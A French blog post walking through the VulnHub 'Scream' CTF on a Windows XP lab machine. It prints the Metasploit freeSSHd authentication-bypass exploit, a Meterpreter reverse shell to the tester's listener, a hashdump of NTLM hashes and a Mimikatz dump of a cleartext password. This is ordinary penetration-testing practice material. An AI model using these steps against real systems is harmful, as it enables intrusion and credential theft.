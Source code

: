 # Solution du CTF Scream

Nitro
-----

Une mise à jour vers [Metasploit 4.9](https://community.rapid7.com/community/metasploit/blog/2014/03/26/new-metasploit-49-helps-evade-anti-virus-solutions-test-network-segmentation-and-increase-productivity-for-penetration-testers) et on est reparti !  

Comme pour le [CTF Bobby 1](http://devloop.users.sourceforge.net/index.php?article74/solution-du-ctf-bobby-1) on a affaire à un CTF Windows qui passe par la personnalisation d'un ISO de XP SP3.  

Par conséquent allez faire un tour sur mon précédent article pour la mise en place.  

Ici l'objectif [du challenge Scream](http://vulnhub.com/entry/devrandom_scream,47/) est d'obtenir le mot de passe de l'utilisateur local.  

*Nmap* révèle la présence de différents services :  

```plain
Nmap scan report for 192.168.1.22
Host is up (0.00029s latency).
Not shown: 996 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 bin
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 log
|_drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 root
|_ftp-bounce: bounce working!
22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
| ssh-hostkey: 1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
|_1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
23/tcp open  domain  ISC BIND login
80/tcp open  http    Tinyweb httpd 1.93
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: The Scream - Edvard Munch
MAC Address: 08:00:27:78:63:1B (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2000|XP
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows 2000 SP4, Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Le serveur web a juste une page d'index avec un ascii-art qui reprends le fameux [Cri d'Edvard Munch](http://fr.wikipedia.org/wiki/Le_Cri) (parenthèse culturelle il parait que c'est la tableau le plus cher au monde...)  

A part ça rien à voir de ce côté.  

Je me suis intéressé au serveur FTP qui permet les connexions en anonymous. Aucun droit n'est donné quand on s'y connecte (les fichiers ne sont pas lisibles), aussi j'ai tenté d'exploiter la faille dans cette version de *WAR-FTPD*.  

*Metasploit* dispose en effet d'un exploit baptisé *"War-FTPD 1.65 Username Overflow"* qui compte XP SP3 dans les plateformes supportées. Ça semblait prometteur mais malgré tous mes essais, rien à faire. *Metasploit* a indiqué par moment que l'exploit a aboutit mais rien sur notre port d'écoute qui attend un reverse-shell :(   

J'ai remarqué lors de la personnalisation de l'ISO par *AutoIt* une fenêtre *AVG* qui pourrait être la cause de ce problème. Mais même en jouant avec les différents payloads, encodeurs et options avancées (*show advanced*) toujours pas de shell :(  

G0t syst3m ?
------------

Je me suis alors rabatu sur le serveur SSHD : j'ai trouvé [un exploit de KingCope](http://www.exploit-db.com/exploits/23080/) pour une faille permettant de bypasser l'authentification.  

L'exploit consiste à récupérer et modifier un client SSH ([5.8p2](https://launchpad.net/openssh/main/5.8p2)) mais après avoir testé plusieurs noms d'utilisateurs, force est de constater que ça ne marchait pas.  

Je me suis bêtement rendu compte en fouillant un peu plus que *Metasploit* disposait aussi d'un exploit pour la même vulnérabilité :  

```plain
msf exploit(freesshd_authbypass) > show options

Module options (exploit/windows/ssh/freesshd_authbypass):

   Name       Current Setting                                                   Required  Description
   ----       ---------------                                                   --------  -----------
   RHOST      192.168.1.22                                                      yes       The target address
   RPORT      22                                                                yes       The target port
   USERNAME                                                                     no        A specific username to try
   USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Freesshd <= 1.2.6 / Windows (Universal)

msf exploit(freesshd_authbypass) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Trying username '4Dgifts'
[*] Trying username 'EZsetup'
[*] Trying username 'OutOfBox'
[*] Trying username 'ROOT'
[*] Trying username 'adm'
[*] Trying username 'admin'
[*] Uploading payload, this may take several minutes...
[*] Sending stage (769536 bytes) to 192.168.1.22
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.22:1072) at 2014-03-29 16:59:54 +0100

meterpreter > ps

Process List
============

 PID   PPID  Name                            Arch  Session     User                          Path
 ---   ----  ----                            ----  -------     ----                          ----
 0     0     [System Process]                      4294967295                                
 4     0     System                          x86   0           NT AUTHORITY\SYSTEM           
 236   636   alg.exe                         x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
 384   4     smss.exe                        x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 456   412   explorer.exe                    x86   0           SCREAM\alex                   C:\WINDOWS\Explorer.EXE
 568   384   csrss.exe                       x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 592   384   winlogon.exe                    x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 636   592   services.exe                    x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 648   592   lsass.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 804   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\svchost.exe
 828   980   wscntfy.exe                     x86   0           SCREAM\alex                   C:\WINDOWS\system32\wscntfy.exe
 884   636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 980   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 1036  636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1060  636   svchost.exe                     x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\system32\svchost.exe
 1224  1292  aCwFw.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\TEMP\aCwFw.exe
 1268  636   spoolsv.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\spoolsv.exe
 1492  592   logon.scr                       x86   0           SCREAM\alex                   C:\WINDOWS\System32\logon.scr
 1556  636   FileZilla server.exe            x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\FileZilla Server\FileZilla Server.exe
 1588  636   FreeSSHDService.exe             x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\freeSSHd\FreeSSHDService.exe
 1740  636   OpenTFTPServerMT.exe            x86   0           NT AUTHORITY\SYSTEM           C:\OpenTFTPServer\OpenTFTPServerMT.exe
 1792  456   FileZilla Server Interface.exe  x86   0           SCREAM\alex                   C:\Program Files\FileZilla Server\FileZilla Server Interface.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 24198fa48ad44c4d77fb0d536e590e53...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:2bf1928be3d38ac3cd7fe0c29e77fe10:62a47ba71ff4351f45933a18ccfb6db4:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9218eb1721cfcff146867f9d715fa8df:::
alex:1003:aad3b435b51404eeaad3b435b51404ee:504182f8417ed8557b67e96adc8b4d04:::
```

Aïe, la compatibilité lanman semble avoir été désactivée (on voit pour les hashs LM des *aad3*... qui correspondent à une chaîne vide).  

A tout hazard on lance *John The Ripper* mais après quelques minutes on se dit que ce n'est pas la peine d'insister :(   

Finalement je tombe [sur cet article](http://www.securityartwork.es/2013/06/04/mimikatz-extension-for-metasploit/?lang=en) qui parle du module *Mimikatz* dans *Metasploit*. Mettons en application :  

```plain
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;999    NTLM       WORKGROUP     SCREAM$          
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;25771  NTLM                                      
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;34724  NTLM       SCREAM        alex             thisisaverylongpassword
```

Effectivement c'est plus rapide :p   


*Published March 29 2014 at 17 39*